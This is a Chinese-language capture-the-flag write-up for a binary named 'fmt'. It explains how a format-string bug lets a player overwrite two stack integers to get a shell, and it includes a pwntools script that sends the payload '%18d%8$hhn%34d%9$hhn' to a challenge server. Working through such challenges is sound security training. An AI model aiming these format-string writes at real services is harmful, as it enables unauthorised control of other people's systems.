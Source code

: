 # fmt

## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

这题是要将栈上的2个int值修改成特定数字就给shell，作者已将地址放在栈上，
gdb动调格式化字符串的参数，发现这2个地址均可访问到，那么直接使用%n将数字写入即可

（我看作者还在buf上放了地址的后8位，估计我这个是非预期解吧）

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./fmt')
    else:
        sh = remote('43.249.195.138', 22188)
    if lo & 0b10:
        gdb.attach(sh)

    # 第8个参数和第9个参数刚好是那2个地址，分别写入0x12和0x34即可
    # 给新手一个提醒，在同一条printf语句中，%n统计的是累计打印出的字符数
    # %hhn是将地址视为byte *向其中写入数字
    sh.sendline(b'%18d%8$hhn%34d%9$hhn')
    sh.interactive()

payload(0)
```

Done.

